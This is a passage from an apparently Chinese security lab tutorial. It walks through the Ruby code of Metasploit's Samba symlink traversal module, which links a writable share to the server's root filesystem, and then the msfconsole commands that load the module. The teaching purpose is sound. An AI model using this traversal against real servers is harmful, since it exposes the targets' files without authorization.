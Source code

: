 ```
  # 程序主要的运行函数
  def run
  
    # 程序连接服务器函数
    print_status("Connecting to the server...")
    connect()
    smb_login()

    
    # 连接目标主机    
    print_status("Trying to mount writeable share '#{datastore['SMBSHARE']}'...")
    self.simple.connect("\\\\#{rhost}\\#{datastore['SMBSHARE']}")

    # 尝试进入 root filesystem 文件系统
    print_status("Trying to link '#{datastore['SMBTARGET']}' to the root filesystem...")
    self.simple.client.symlink(datastore['SMBTARGET'], "../" * 10)

    # 进入成功后，在屏幕上输入成功标志
    print_status("Now access the following share to browse the root filesystem:")
    print_status("\t\\\\#{rhost}\\#{datastore['SMBSHARE']}\\#{datastore['SMBTARGET']}\\")
    print_line("")
  end

end 
  

```

代码关键模块讲解结束后，我们在 MSF 终端中，进行实战，输入如下命令：

```
search samba
```

![此处输入图片的描述](https://doc.shiyanlou.com/document-uid212008labid2296timestamp1480572764316.png/wm)


注意：这一步在实验楼中使用 `search samba` 会花较长的时间，同学们可以直接看老师搜索出来的结果，跳过这一步不会影响实验，造成缓慢的主要原因是因为没有进行缓存。解决的办法是使用缓存命令 `db_rebuild_cache` 进行缓存，提高索引速度：


```
# 使用 samba_symlink_traversal 模块

use auxiliary/admin/smb/samba_symlink_traversal 

# 查看参数

show options
         
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1480572977733.png-wm)
